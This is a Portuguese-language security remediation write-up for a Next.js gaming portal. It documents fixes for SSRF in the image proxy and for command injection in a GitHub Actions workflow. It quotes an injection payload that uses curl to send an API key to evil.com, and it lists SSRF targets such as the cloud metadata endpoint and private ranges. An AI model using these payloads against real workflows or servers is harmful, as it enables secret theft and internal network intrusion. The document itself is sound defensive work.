

# Hardening de Segurança — Fase 3 (Next.js Image Proxy & Blindagem de CI/CD)

Este documento detalha as implementações técnicas de segurança realizadas durante a **Fase 3** do plano de remediação do portal **Made By AI Games** (Next.js 15, App Router, TypeScript, GitHub Actions).

O foco desta etapa foi eliminar vulnerabilidades de **SEVERIDADE ALTA**:
1. **Server-Side Request Forgery (SSRF)** no proxy otimizador de imagens do Next.js.
2. **Expression Injection / Command Injection** em pipelines de automação do GitHub Actions.

---

## 1. Hardening do Next.js Image Proxy (Eliminação de SSRF)

### 1.1 O Vetor de Ataque Anterior
No arquivo `next.config.ts`, a configuração anterior continha regras permissivas de fallback:

```ts
// ❌ VULNERABILIDADE CRÍTICA ANTERIOR:
{ protocol: "https", hostname: "**" },
{ protocol: "http", hostname: "**" },
```

No Next.js, o componente `<Image />` delega o processamento para o endpoint interno `/_next/image?url=<EXTERNAL_URL>&w=...&q=...`. O servidor Next.js atua como um **cliente HTTP** realizando a requisição para a URL especificada no parâmetro `url`.

Com o curinga global `**`, qualquer atacante poderia submeter URLs arbitrárias através do parâmetro `url`, transformando o servidor web em um **proxy aberto** (Open HTTP Proxy):
- **Acesso a Serviços de Metadados de Nuvem (IMDS)**: Requisições para `http://169.254.169.254/latest/meta-data/` (AWS/GCP/Azure) para roubo de tokens temporários de IAM e segredos do cluster.
- **Varredura de Rede Interna (Port Scanning)**: Acesso a bancos de dados, Redis, instâncias Supabase self-hosted ou microsserviços em sub-redes privadas RFC 1918 (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`).
- **Acesso a Serviços Locais**: Requisições para `http://localhost:3000` ou `http://127.0.0.1:8080` contornando firewalls de borda.



---

### 1.2 Regras Estritas em `remotePatterns` (Next.js 15)

O Next.js 15 estabelece um **limite máximo de 50 elementos** no array `images.remotePatterns`. Para comportar todas as fontes de notícias, lojas e parceiros sem estourar o limite da engine, consolidamos os hosts autorizados com padrões curinga pontuais (`*.dominio.com`):

```ts
// next.config.ts (Hardened)
images: {
  formats: ["image/avif", "image/webp"],
  minimumCacheTTL: 86400, // 24h de cache para assets estáticos
  remotePatterns: [
    // Fontes Oficiais de Notícias e Comunicação de Games
    { protocol: "https", hostname: "*.playstation.com" },
    { protocol: "https", hostname: "*.xbox.com" },
    { protocol: "https", hostname: "*.s-microsoft.com" },
    { protocol: "https", hostname: "*.thesourcemediaassets.com" },
    { protocol: "https", hostname: "*.nintendolife.com" },
    { protocol: "https", hostname: "*.nintendo.com" },
    { protocol: "https", hostname: "nintendoeverything.com" },
    { protocol: "https", hostname: "*.nintendoeverything.com" },
    { protocol: "https", hostname: "cdn.mos.cms.futurecdn.net" }, // PC Gamer / Future
    { protocol: "https", hostname: "*.futurecdn.net" },
    { protocol: "https", hostname: "*.pcgamer.com" },
    { protocol: "https", hostname: "pcgamer.com" },
    { protocol: "https", hostname: "assets.reedpopservices.com" }, // Eurogamer & GamesIndustry
    { protocol: "https", hostname: "*.reedpopservices.com" },
    { protocol: "https", hostname: "*.gnwcdn.com" }, // Gamer Network CDN
    { protocol: "https", hostname: "*.eurogamer.net" },
    { protocol: "https", hostname: "*.gamesindustry.biz" },

    // CDNs de Jogos e Plataformas
    { protocol: "https", hostname: "shared.fastly.steamstatic.com" },
    { protocol: "https", hostname: "cdn.cloudflare.steamstatic.com" },
    { protocol: "https", hostname: "cdn.akamai.steamstatic.com" },
    { protocol: "https", hostname: "store.fastly.steamstatic.com" },
    { protocol: "https", hostname: "*.steamstatic.com" },
    { protocol: "https", hostname: "*.steampowered.com" },
    { protocol: "https", hostname: "*.epicgames.com" },
    { protocol: "https", hostname: "media.rawg.io" },
    { protocol: "https", hostname: "images.igdb.com" },

    // Lojas e Parceiros de Afiliados (Amazon, KaBuM!, Nuuvem)
    { protocol: "https", hostname: "images-na.ssl-images-amazon.com" },
    { protocol: "https", hostname: "*.media-amazon.com" },
    { protocol: "https", hostname: "*.kabum.com.br" },
    { protocol: "https", hostname: "*.nuuvem.com" },

    // Mídia Editorial Geral e Banco de Imagens
    { protocol: "https", hostname: "images.unsplash.com" },
    { protocol: "https", hostname: "*.ign.com" },
    { protocol: "https", hostname: "*.ignimgs.com" },
    { protocol: "https", hostname: "*.gamespot.com" },
    { protocol: "https", hostname: "*.polygon.com" },
    { protocol: "https", hostname: "videogameschronicle.com" },
    { protocol: "https", hostname: "*.videogameschronicle.com" },
    { protocol: "https", hostname: "gematsu.com" },
    { protocol: "https", hostname: "*.gematsu.com" },
    { protocol: "https", hostname: "rockpapershotgun.com" },
    { protocol: "https", hostname: "*.rockpapershotgun.com" },
    { protocol: "https", hostname: "destructoid.com" },
    { protocol: "https", hostname: "*.destructoid.com" },
    { protocol: "https", hostname: "*.redd.it" },
    { protocol: "https", hostname: "gamespress.com" },
    { protocol: "https", hostname: "*.gamespress.com" },
  ],
}
```

---

### 1.3 Defesa em Profundidade: `lib/utils.ts`

Além da barreira do Next.js, implementamos validação ativa de segurança em código TypeScript em [`lib/utils.ts`](../../lib/utils.ts):

1. **`isAllowedImageHost(urlOrHost: string): boolean`**:
   - Bloqueia explicitamente:
     - `localhost`, `*.localhost`, `*.local`, `*.internal`.
     - `127.0.0.0/8` (Loopback IPv4).
     - `::1`, `[::1]` (Loopback IPv6).
     - `169.254.0.0/16` (Link-local e IMDS de nuvem `169.254.169.254`).
     - `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16` (RFC 1918 sub-redes privadas).
     - `100.64.0.0/10` (Carrier-Grade NAT RFC 6598).
     - `metadata.google.internal`.
   - Previne **Bypasses por Sufixo ou Prefixo**:
     - `evil-steamstatic.com` ➔ Rejeitado.
     - `steamstatic.com.attacker.com` ➔ Rejeitado.
   - Rejeita esquemas perigosos (`file://`, `javascript:`, `data:`).

2. **`isValidImageUrl(url?: string | null): boolean`**:
   - Integra a validação de domínio de `isAllowedImageHost`.
   - Descarta extensões de áudio/vídeo (`.mp3`, `.wav`, etc.).
   - Descarta SVGs e pixels rastreadores/placeholders.
   - Rejeita CDNs que bloqueiam hotlinking via Cloudflare Bot Challenge (ex: `images.nintendolife.com`).

---

### 1.4 Blindagem do Pipeline de Ingestão (`scripts/sync-news.ts`)

No pipeline de ingestão autônoma de notícias:
1. Durante a raspagem (`scrapeArticle`), qualquer URL extraída de `media:content`, `enclosure`, `og:image` ou tags HTML inline é validada via `isValidImageUrl` e `isAllowedImageHost`.
2. Se a matéria trouxer uma imagem de um domínio não autorizado ou não confiável, a imagem é descartada e o sistema atribui automaticamente a capa temático-oficial da plataforma (Unsplash curada) via `FALLBACK_COVERS_BY_CATEGORY`.
3. Antes da inserção no banco de dados Supabase (`cover_image_url`), uma guarda defensiva final garante que nenhuma imagem fora dos domínios autorizados seja persistida.

---

### 1.5 Procedimento para Adicionar Novas Fontes de Imagens

Caso um novo feed RSS editorial ou loja parceira seja integrado ao portal:

1. **Identificar o domínio canônico de mídia**:
   - Exemplo: `nova-fonte.com` e sua CDN de imagens `cdn.nova-fonte.com`.
2. **Atualizar `next.config.ts`**:
   - Adicionar `{ protocol: "https", hostname: "*.nova-fonte.com" }` em `images.remotePatterns`.
   - Adicionar `https://*.nova-fonte.com` na diretiva `img-src` da Content Security Policy (CSP).
   - Certificar-se de manter o array dentro do limite de 50 entradas.
3. **Atualizar `lib/utils.ts`**:
   - Incluir `*.nova-fonte.com` e `nova-fonte.com` na constante `ALLOWED_IMAGE_HOST_PATTERNS`.
4. **Validar**:
   - Rodar `npx tsx scratch/test-phase3-security.ts`.
   - Rodar `npm run build`.

---

## 2. Blindagem de CI/CD contra Expression Injection (GitHub Actions)

### 2.1 O Vetor de Ataque Anterior
No workflow `.github/workflows/cron-weekly-newsletter.yml`, o formulário de disparo manual (`workflow_dispatch`) permite que usuários informem parâmetros:

```yaml
# ❌ VULNERABILIDADE CRÍTICA ANTERIOR:
- name: Executar Pipeline de Disparo da Newsletter
  run: |
    FLAGS=""
    if [ "${{ github.event.inputs.dry_run }}" = "true" ]; then
      FLAGS="$FLAGS --dry-run"
    fi
    if [ -n "${{ github.event.inputs.test_email }}" ]; then
      FLAGS="$FLAGS --test-email=${{ github.event.inputs.test_email }}"
    fi
    npm run newsletter:send -- $FLAGS
```

### Mecânica da Falha (OWASP CI/CD Top 10 - Command Injection)
O runner do GitHub Actions substitui `${{ ... }}` **antes** de passar o script para o interpretador bash. Isso significa que o conteúdo do input é renderizado como código literal do script bash.

Se um usuário fornecer no campo `test_email`:
```text
gamer@test.com"; curl https://evil.com/leak?k=$RESEND_API_KEY; #
```

O GitHub Actions geraria o seguinte script executado pelo bash:
```bash
FLAGS=""
if [ -n "gamer@test.com"; curl https://evil.com/leak?k=$RESEND_API_KEY; #" ]; then
...
```
Isso resultaria na **execução arbitrária de comandos**, permitindo exfiltração de secrets de produção (`RESEND_API_KEY`, `SUPABASE_SERVICE_ROLE_KEY`) e comprometimento do runner.

---

### 2.2 Padrão de Blindagem Adotado (Recomendação GitHub Security)

A prática recomendada pelo GitHub Security Lab consiste em **nunca interpolar variáveis de contexto não confiáveis diretamente no bloco `run:`**. Em vez disso, mapeiam-se os inputs para variáveis de ambiente intermediárias no bloco `env:`:

```yaml
# ✅ CORREÇÃO SEGURA (Fase 3):
- name: Executar Pipeline de Disparo da Newsletter
  env:
    INPUT_DRY_RUN: ${{ github.event.inputs.dry_run }}
    INPUT_TEST_EMAIL: ${{ github.event.inputs.test_email }}
    RESEND_API_KEY: ${{ secrets.RESEND_API_KEY }}
    RESEND_FROM_EMAIL: ${{ secrets.RESEND_FROM_EMAIL }}
    SUPABASE_URL: ${{ secrets.SUPABASE_URL }}
    SUPABASE_SERVICE_ROLE_KEY: ${{ secrets.SUPABASE_SERVICE_ROLE_KEY }}
    NEXT_PUBLIC_SITE_URL: ${{ secrets.NEXT_PUBLIC_SITE_URL }}
  run: |
    FLAGS=""
    if [ "$INPUT_DRY_RUN" = "true" ]; then
      FLAGS="$FLAGS --dry-run"
    fi
    if [ -n "$INPUT_TEST_EMAIL" ]; then
      # Validação estrita de formato de e-mail (Prevenção de Argument Injection e caracteres perigosos)
      if echo "$INPUT_TEST_EMAIL" | grep -Eq '^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$'; then
        FLAGS="$FLAGS --test-email=$INPUT_TEST_EMAIL"
      else
        echo "::error::Formato de e-mail de teste inválido ou perigoso fornecido: $INPUT_TEST_EMAIL"
        exit 1
      fi
    fi
    npm run newsletter:send -- $FLAGS
```

### Por que esta solução é 100% segura:
1. **Tratamento como Dado, não Código**: No bloco `env:`, o GitHub Actions define variáveis de ambiente no processo do sistema operacional. Aspas, quebras de linha e metacaracteres bash (`$`, `;`, `&`, `|`, `` ` ``) permanecem dados puros e nunca são interpretados como comandos.
2. **Validação Estrita por Expressão Regular**: Antes de repassar `$INPUT_TEST_EMAIL` como argumento CLI, o script valida via `grep -Eq` que a string é estritamente um endereço de e-mail RFC 5322 válido, impedindo injeção de parâmetros adicionais (Argument Injection).
3. **Falha Rápida com Mensagem de Auditoria**: Qualquer entrada anômala aborta imediatamente o step com código de saída 1 e emite um erro formatado para a UI do GitHub Actions (`::error::`).

---

### 2.3 Auditoria dos Demais Workflows

Auditoria completa realizada em todos os workflows em `.github/workflows/`:

| Workflow | Arquivo | Inputs Externos | Interpolação no `run:` | Status |
| :--- | :--- | :--- | :--- | :--- |
| **Weekly Newsletter** | `cron-weekly-newsletter.yml` | Sim (`dry_run`, `test_email`) | ❌ Eliminada (Mapeado em `env:` com regex) | 🟢 **BLINDADO** |
| **Sync News (Cron)** | `cron-sync-news.yml` | Não (Apenas cron e secrets) | Nenhuma | 🟢 **CONFORME** |
| **Discord Deals (Cron)** | `cron-discord-deals.yml` | Não (Apenas cron e secrets) | Nenhuma | 🟢 **CONFORME** |

---

## 3. Matriz de Testes Automatizados da Fase 3

A suíte em [`scratch/test-phase3-security.ts`](../../scratch/test-phase3-security.ts) executa 78 verificações de segurança automatizadas:

```text
====================================================================
🛡️  TESTES DE SEGURANÇA E VALIDAÇÃO DA FASE 3 (SSRF & CI/CD HARDENING)
====================================================================

📌 [1/5] Testando Aceitação de Domínios e CDNs Oficiais Autorizadas...
  ✅ [PASS] 22 domínios oficiais aceitos (PlayStation, Xbox Wire, thesourcemediaassets, etc.)

📌 [2/5] Testando Bloqueio de Alvos SSRF, Redes Privadas e Bypass Attempts...
  ✅ [PASS] 20 vetores SSRF e bypasses bloqueados (IMDS, Loopback, RFC 1918, CGNAT, etc.)

📌 [3/5] Testando Defesa em Profundidade em isValidImageUrl()...
  ✅ [PASS] 6 cenários validados (Formatos, protocolos, áudio, SVG, host unapproved)

📌 [4/5] Auditando next.config.ts e Workflows de CI/CD...
  ✅ [PASS] 29 verificações estáticas (ausência de **, mapeamento env: em workflows)

📌 [5/5] Validando Compatibilidade com Imagens Existentes no Banco...
  ✅ [PASS] Todas as 135 imagens de notícias ativas no Supabase permanecem 100% compatíveis!

====================================================================
📊 RESULTADO FINAL DA FASE 3: 78 Passaram, 0 Falharam
====================================================================
```
